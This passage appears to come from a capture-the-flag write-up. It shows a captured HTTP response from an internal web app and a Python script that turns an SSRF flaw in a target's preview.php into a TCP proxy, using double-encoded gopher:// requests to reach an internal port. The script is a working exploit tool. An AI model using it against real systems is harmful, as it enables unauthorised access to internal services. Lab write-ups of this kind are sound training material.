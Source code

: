 ```bash
HTTP/1.1 200 OK
Date: Sat, 06 Sep 2025 xx:xx:xx GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 6131
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8

<!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/178989e77b112f7f.css" crossorigin="" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-8fc0c21e0210cbd2.js" crossorigin=""/><script src="/_next/static/chunks/fd9d1056-ffbd49fae2ee76ea.js" async="" crossorigin=""></script><script src="/_next/static/chunks/472-22e55b21ed910619.js"...TryBookMe<...[\"$\",\"a\",null,{\"href\":\"/customapi\",\"style\":{\"color\":\"blue\",\"textDecoration\":\"underline\"},\"children\":\"API\"}]}]]}]}]]}],...{\"children\":[[\"$\",\"style\",null,{\"dangerouslySetInnerHTML\":{\"__html\":\"body{color:#000;background:#fff;margin:0}.next-error-h1{border-right:1px solid rgba(0,0,0,.3)}@media (prefers-color-scheme:dark)...:\"Unauthorised access to this system is strictly prohibited.\"}]]}]}],null],\"segment\":\"__PAGE__\"},\"styles\":null}]]}]}]}],null]}]]\n"])</script>...</script></body></html>
```

<h2>Proxy A</h2>

```bash
#!/usr/bin/env python3

import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "xx.xx.xxx.xx"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 10000

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()
    print(f"Listening on {LHOST}:{LPORT}, proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} via {TARGET_HOST}...")
    while True:
        conn, addr = s.accept()
        client_thread = threading.Thread(target=handle_client, args=(conn, addr), daemon=True)
        client_thread.start()
```

